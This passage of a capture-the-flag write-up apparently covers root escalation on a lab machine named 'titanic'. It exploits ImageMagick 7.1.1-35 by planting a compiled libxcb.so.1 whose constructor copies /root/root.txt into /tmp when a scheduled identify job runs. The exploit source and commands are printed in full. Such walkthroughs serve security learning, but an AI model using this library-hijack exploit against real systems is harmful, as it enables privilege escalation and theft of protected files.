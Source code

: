 ```
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
```
we can see it tries to find an image with .jpg in /opt/app/static/assests/images. We can also see the magick file again. So 
im going to look at some vulnerabilties in which I found this github repo which goes through it really well 

https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8

we will check version 
```
developer@titanic:/opt/scripts$ magick -version
Version: ImageMagick 7.1.1-35 Q16-HDRI x86_64 1bfce2a62:20240713 https://imagemagick.org
Copyright: (C) 1999 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): bzlib djvu fontconfig freetype heic jbig jng jp2 jpeg lcms lqr lzma openexr png raqm tiff webp x xml zlib
Compiler: gcc (9.4)
```
we can see we are using same version, now all Im going to do within the /opt/app/static/assets/images/ directory is literally copy and paste the the gcc command but instead of system id I will run system cat root.txt and out it into tmp folder 
```
gcc -x c -shared -fPIC -o libxcb.so.1 - << 'EOF'
#include <stdlib.h>
#include <unistd.h>      // for _exit()
__attribute__((constructor))
static void init(void) {
    system("cat /root/root.txt > /tmp/rootflag");
    _exit(0);
}
EOF
```
After running that you should see something like this 
```
developer@titanic:/opt/app/static/assets/images$ gcc -x c -shared -fPIC -o libxcb.so.1 - << 'EOF'
#include <stdlib.h>
#include <unistd.h>      // for _exit()
__attribute__((constructor))
static void init(void) {
    system("cat /root/root.txt > /tmp/rootflag");
    _exit(0);
}
EOF
developer@titanic:/opt/app/static/assets/images$ ls
entertainment.jpg     favicon.ico  home.jpg     luxury-cabins.jpg
exquisite-dining.jpg  libxcb.so.1  metadata.log
```
I will now copy home.jpg and make another one 
```
developer@titanic:/opt/app/static/assets/images$ cp home.jpg home3.jpg
developer@titanic:/opt/app/static/assets/images$ ls /tmp
rootflag
snap-private-tmp
ssh_client_ip_developer
systemd-private-5d4c53807ea04c9caaa276fc9d8cd6a1-apache2.service-ChsJef
systemd-private-5d4c53807ea04c9caaa276fc9d8cd6a1-fwupd.service-wYy1LJ
systemd-private-5d4c53807ea04c9caaa276fc9d8cd6a1-ModemManager.service-e2w0yo
systemd-private-5d4c53807ea04c9caaa276fc9d8cd6a1-systemd-logind.service-9sXQ9w
systemd-private-5d4c53807ea04c9caaa276fc9d8cd6a1-systemd-resolved.service-L2APOV
systemd-private-5d4c53807ea04c9caaa276fc9d8cd6a1-systemd-timesyncd.service-dbThfP
systemd-private-5d4c53807ea04c9caaa276fc9d8cd6a1-upower.service-me3PCs
tmux-1000
```